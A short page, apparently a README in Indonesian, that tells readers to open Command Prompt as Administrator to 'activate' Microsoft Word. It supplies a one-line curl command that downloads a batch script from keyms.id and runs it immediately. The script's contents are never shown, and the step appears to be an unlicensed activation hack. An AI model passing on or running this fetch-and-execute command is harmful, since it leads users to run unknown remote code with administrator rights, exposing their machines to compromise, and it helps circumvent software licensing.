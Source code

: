 # Aktivasi WORD

## Aktivasi WORD, buka Command Prompt (CMD) sebagai Administrator, lalu salin dan jalankan perintah di bawah ini:

```cmd
curl -L keyms.id/aso -o aso.cmd & aso.cmd￼Enter
